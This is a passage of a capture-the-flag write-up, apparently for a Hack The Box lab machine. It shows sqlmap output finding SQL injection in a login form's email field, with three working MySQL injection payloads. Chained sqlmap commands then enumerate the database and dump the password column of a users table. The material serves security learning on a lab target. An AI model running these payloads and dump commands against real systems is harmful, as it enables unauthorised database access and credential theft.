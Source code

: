 ```console
root@EdgeOfNight:~# sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" 
   
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by the program

[*] starting at 05:37:17
[A lot of scanning REDACTED for easier reading]
[05:37:17] [INFO] resuming back-end DBMS 'mysql' 
[05:37:17] [INFO] testing connection to the target URL
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=whatever' RLIKE (SELECT (CASE WHEN (1147=1147) THEN 0x6161 ELSE 0x28 END))-- EMIN&password=whatever

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=whatever' OR (SELECT 7770 FROM(SELECT COUNT(*),CONCAT(0x7171717071,(SELECT (ELT(7770=7770,1))),0x717a7a6a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- 	 apkS&password=whatever

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: email=whatever' OR SLEEP(5)-- ZTnM&password=whatever
---
[05:37:17] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[05:37:17] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'

[*] shutting down at 05:37:17

``` 
SQLmap clearly tells us that the webpage is vulnerable. Chaining these commands we are able to extract needed information:

* sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" --dbs
* sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" --tables -D admin
* sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" --tables --columns -D admin -T users
* sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" -D admin -T users --dump password

> Check out [this](http://www.binarytides.com/sqlmap-hacking-tutorial/){:target="_blank"} cheatsheet if you want to learn SQLmap!
